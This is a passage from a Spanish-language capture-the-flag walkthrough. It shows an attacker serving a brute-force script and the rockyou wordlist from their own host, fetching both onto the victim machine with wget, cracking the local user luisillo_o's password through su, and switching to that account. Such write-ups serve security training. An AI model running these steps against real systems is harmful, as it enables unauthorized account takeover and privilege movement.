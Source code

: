 Info:

```
luisillo_o:x:1001:1001::/home/luisillo_o:/bin/sh
```

Pero si probamos con la contraseña que encontramos anteriormente no nos funcionara, por lo que vamos a probar a tirarle fuerza bruta con el comando `su` con el siguiente script llamado `suBruteforce.sh`.

URL = [suBruteforce.sh GitHub](https://github.com/D1se0/suBruteforce/blob/main/suBruteforceBash/suBruteforce.sh)

Primero nos tendremos que copiar el codigo del `sh` en nuestra maquina `host` en un archivo `.sh` y despues nos copiaremos el `rockyou.txt` a nuestro directorio actual, en el abriremos un servidor de `python3` para pasarnos todo a la maquina victima.

```shell
python3 -m http.server
```

Una vez teniendo el server activo, en la maquina victima haremos lo siguiente:

```shell
cd /tmp
wget http://<IP>:8000/suBruteforce.sh
wget http://<IP>:8000/rockyou.txt
```

Una vez pasado todo, tendremos que ver los siguiente archivos en la carpeta `/tmp`.

```shell
ls -la /tmp
```

Info:

```
total 136656
drwxrwxrwt 1 root     root          4096 Feb  1 15:54 .
drwxr-xr-x 1 root     root          4096 Feb  1 15:17 ..
-rw-r--r-- 1 www-data www-data 139921507 Feb  1 15:53 rockyou.txt
-rw-r--r-- 1 www-data www-data      1517 Feb  1 15:53 suBruteforce.sh
```

Por lo que ejecutaremos el script de la siguiente forma:

```shell
bash suBruteforce.sh luisillo_o rockyou.txt
```

Info:

```
[+] Contraseña encontrada para el usuario luisillo_o:19831983
```

Ahora haremos lo siguiente:

```shell
su luisillo_o
```
